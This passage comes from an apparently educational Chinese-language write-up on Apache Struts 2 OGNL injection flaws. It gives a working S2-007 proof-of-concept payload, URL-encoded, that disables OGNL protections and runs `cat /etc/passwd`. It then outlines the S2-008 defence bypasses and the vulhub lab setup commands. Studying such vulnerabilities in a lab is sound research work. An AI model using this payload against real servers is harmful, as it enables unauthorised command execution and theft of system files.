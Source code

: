任意命令执行 PoC，执行 `cat /etc/passwd` 命令

```
name=a&email=a&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat%20/etc/passwd%27%29.getInputStream%28%29%29%29+%2B+%27
```

![s2-007-3](images/s2-007-3.png)

## S2-008

S2-008 还是对 S2-003 的绕过，通过 S2-003/S2-005 ，Struts 2 为了阻止攻击者在参数中植入恶意 OGNL，设置了 `xwork.MethodAccessor.denyMethodExecution` 以及 `SecurityMemberAccess.allowStaticMethodAccess` ，并使用白名单正则 `[a-zA-Z0-9\.][()_']+` 来匹配参数中的恶意调用，但是在一些特殊情况下，这些防御还是可以被绕过。Cookie 拦截器错误配置可造成 OGNL 表达式执行；在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令；官方文档提出了 4 种绕过防御的手段，其中关注比较多的是 devMode 模式导致的绕过。

官方公告：[S2-008](https://cwiki.apache.org/confluence/display/WW/S2-008)

### 影响版本

- [x] ，Struts 2.1.0 - 2.3.1

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-008
docker-compose up -d
```
